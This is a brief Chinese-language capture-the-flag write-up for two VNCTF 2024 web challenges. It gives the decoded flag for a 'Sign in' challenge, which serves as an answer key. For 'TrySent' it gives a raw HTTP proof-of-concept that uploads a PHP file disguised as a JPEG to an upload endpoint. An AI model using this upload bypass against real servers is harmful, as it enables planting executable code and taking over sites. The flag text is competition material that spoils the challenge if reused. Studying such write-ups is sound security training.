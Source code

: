 # VNCTF 2024 Web

  
  
&lt;!--more--&gt;  
## Sign in  
在`game.js`中发现关键代码，放到`console`中执行  
```js  
var _0x3d9d=[&#34;\x56\x4e\x43\x54\x46\x7b\x57\x33\x31\x63\x30\x6d\x33\x5f\x74\x30\x5f\x56\x4e\x43\x54\x46\x5f\x32\x30\x32\x34\x5f\x67\x40\x6f\x64\x5f\x4a\x30\x42\x21\x21\x21\x21\x7d&#34;];  
console.log(_0x3d9d[0]);  
```  
获得`flag`  
`VNCTF{W31c0m3_t0_VNCTF_2024_g@od_J0B!!!!}`  
## TrySent  
poc  
```http  
POST /user/upload/upload HTTP/1.1  
Host: 2180fc06-45c6-4306-8e86-637be6a3025a.vnctf2024.manqiu.top  
Content-Length: 758  
Sec-Ch-Ua: &#34; Not;A Brand&#34;;v=&#34;99&#34;, &#34;Google Chrome&#34;;v=&#34;97&#34;, &#34;Chromium&#34;;v=&#34;97&#34;  
Sec-Ch-Ua-Mobile: ?0  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36  
Sec-Ch-Ua-Platform: &#34;Windows&#34;  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrhx2kYAMYDqoTThz  
Accept: */*  
Origin: https://info.ziwugu.vip/  
Sec-Fetch-Site: same-origin  
Sec-Fetch-Mode: cors  
Sec-Fetch-Dest: empty  
Referer: https://target.com/user/upload/index?name=icon&amp;type=image&amp;limit=1  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9,ja-CN;q=0.8,ja;q=0.7,en;q=0.6  
Connection: close  
  
------WebKitFormBoundaryrhx2kYAMYDqoTThz  
Content-Disposition: form-data; name=&#34;id&#34;  
  
WU_FILE_0  
------WebKitFormBoundaryrhx2kYAMYDqoTThz  
Content-Disposition: form-data; name=&#34;name&#34;  
  
test.jpg  
------WebKitFormBoundaryrhx2kYAMYDqoTThz  
Content-Disposition: form-data; name=&#34;type&#34;  
  
image/jpeg  
------WebKitFormBoundaryrhx2kYAMYDqoTThz  
Content-Disposition: form-data; name=&#34;lastModifiedDate&#34;  
  
Wed Jul 21 2021 18:15:25 GMT&#43;0800 (中国标准时间)  
------WebKitFormBoundaryrhx2kYAMYDqoTThz  
Content-Disposition: form-data; name=&#34;size&#34;  
  
164264  
------WebKitFormBoundaryrhx2kYAMYDqoTThz  
Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;test.php&#34;  
Content-Type: image/jpeg  
  
JFIF  
```